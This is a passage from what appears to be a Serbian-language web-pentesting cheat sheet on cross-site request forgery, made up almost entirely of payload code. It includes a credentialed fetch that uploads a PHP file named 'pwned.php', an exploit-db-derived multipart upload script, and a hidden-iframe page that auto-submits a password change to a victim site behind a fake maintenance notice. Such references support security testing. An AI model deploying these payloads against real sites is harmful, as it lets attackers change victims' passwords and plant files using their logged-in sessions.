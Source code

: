 ```html
url: "https://google.com",
data: "param=value&param2=value2"
})
</script>
```

### multipart/form-data POST zahtev

```javascript
myFormData = new FormData();
var blob = new Blob(["<?php phpinfo(); ?>"], { type: "text/text"});
myFormData.append("newAttachment", blob, "pwned.php");
fetch("http://example/some/path", {
method: "post",
body: myFormData,
credentials: "include",
headers: {"Content-Type": "application/x-www-form-urlencoded"},
mode: "no-cors"
});
```

### multipart/form-data POST zahtev v2

```javascript
// https://www.exploit-db.com/exploits/20009
var fileSize = fileData.length,
boundary = "OWNEDBYOFFSEC",
xhr = new XMLHttpRequest();
xhr.withCredentials = true;
xhr.open("POST", url, true);
//  MIME POST request.
xhr.setRequestHeader("Content-Type", "multipart/form-data, boundary="+boundary);
xhr.setRequestHeader("Content-Length", fileSize);
var body = "--" + boundary + "\r\n";
body += 'Content-Disposition: form-data; name="' + nameVar +'"; filename="' + fileName + '"\r\n';
body += "Content-Type: " + ctype + "\r\n\r\n";
body += fileData + "\r\n";
body += "--" + boundary + "--";

//xhr.send(body);
xhr.sendAsBinary(body);
```

### Form POST zahtev iz iframe-a

```html
<--! expl.html -->

<body onload="envia()">
<form method="POST"id="formulario" action="http://aplicacion.example.com/cambia_pwd.php">
<input type="text" id="pwd" name="pwd" value="otra nueva">
</form>
<body>
<script>
function envia(){document.getElementById("formulario").submit();}
</script>

<!-- public.html -->
<iframe src="2-1.html" style="position:absolute;top:-5000">
</iframe>
<h1>Sitio bajo mantenimiento. Disculpe las molestias</h1>
```
